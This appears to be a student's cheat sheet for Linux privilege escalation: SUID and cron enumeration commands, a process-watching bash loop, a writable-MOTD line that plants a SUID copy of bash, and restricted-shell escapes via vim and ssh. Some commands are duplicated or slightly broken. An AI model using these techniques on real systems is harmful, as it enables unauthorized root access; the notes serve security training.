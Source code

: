  https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
# Check for crons



```bash
find / -perm -4000 2>/dev/null # find SUID 
cat /etc/crontab or crontab -l #  find cron jobs

cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#" # crongs

ls -al /etc/cron* /etc/at* # find crons

# Check for what from /usr changing what in /home/student/message
grep -rnw /usr -e "PATH TO THE FILE BEING UPDATED" # eg. /home/student/message
```

## script
```
#!/bin/bash

IFS=$'\n'
old_process=$(ps -eo command)

while true; do 
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process")  |grep [\<\>]
  sleep 1 
  old_process=new_process 
done
```
# writable MOTD

echo "cp /bin/bash /home/name/bash && chmod u+s /home/name/bash" >> 00-header

# SUID

find / -perm -4000 2>/dev/null find SUID 
cat /etc/crontab or crontab -l  find cron jobs
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Restricted shell escape

```
/bin/bash

echo /usr/bin/*
$(whoami)

```


## Text Editors

The first technique we'll look at to escape restricted shells is through [text editors](https://null-byte.wonderhowto.com/how-to/intro-vim-unix-text-editor-every-hacker-should-be-familiar-with-0174674/). Most text editors, like vim, vi, nano, pico, ed, etc., can run commands and scripts inside of them. The following commands can be used to potentially spawn a shell:

```unknown
:!/bin/sh
:shell
:set shell=/bin/sh
```

Finally, if [SSH](https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/) access is available but drops you into a restricted shell, connecting with the following options can be used to escape:

```unknown
ssh user@IP -t "bash --noprofile"
ssh user@IP -t "/bin/sh"
```